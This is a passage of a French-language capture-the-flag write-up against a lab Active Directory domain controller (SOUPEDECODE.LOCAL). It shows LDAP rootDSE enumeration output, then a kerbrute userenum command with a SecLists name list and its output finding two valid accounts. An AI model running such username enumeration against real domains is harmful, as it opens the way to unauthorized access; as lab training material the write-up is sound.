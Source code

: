 ```console
supportedSASLMechanisms: DIGEST-MD5
supportedLDAPVersion: 3
--- snip ---
supportedCapabilities: 1.2.840.113556.1.4.2237
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=SOUPEDECODE,DC=L
 OCAL
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
 ation,DC=SOUPEDECODE,DC=LOCAL
schemaNamingContext: CN=Schema,CN=Configuration,DC=SOUPEDECODE,DC=LOCAL
namingContexts: DC=SOUPEDECODE,DC=LOCAL
namingContexts: CN=Configuration,DC=SOUPEDECODE,DC=LOCAL
namingContexts: CN=Schema,CN=Configuration,DC=SOUPEDECODE,DC=LOCAL
namingContexts: DC=DomainDnsZones,DC=SOUPEDECODE,DC=LOCAL
namingContexts: DC=ForestDnsZones,DC=SOUPEDECODE,DC=LOCAL
isSynchronized: TRUE
highestCommittedUSN: 49169
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
 CN=Sites,CN=Configuration,DC=SOUPEDECODE,DC=LOCAL
dnsHostName: DC01.SOUPEDECODE.LOCAL
defaultNamingContext: DC=SOUPEDECODE,DC=LOCAL
currentTime: 20250618175500.0Z
configurationNamingContext: CN=Configuration,DC=SOUPEDECODE,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Faute d'avoir des identifiants, on remet kerbrute sur la table. On retrouve les deux mêmes utilisateurs que sur le précédent CTF (`DC01`). 

```console
./kerbrute userenum -d soupedecode.local --dc 192.168.56.126 /opt/SecLists/Usernames/Names/names.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/18/25 - Ronnie Flathers @ropnop

2025/06/18 11:01:17 >  Using KDC(s):
2025/06/18 11:01:17 >   192.168.56.126:88

2025/06/18 11:01:17 >  [+] VALID USERNAME:       admin@soupedecode.local
2025/06/18 11:01:17 >  [+] VALID USERNAME:       charlie@soupedecode.local
2025/06/18 11:01:18 >  Done! Tested 10177 usernames (2 valid) in 1.062 seconds
```
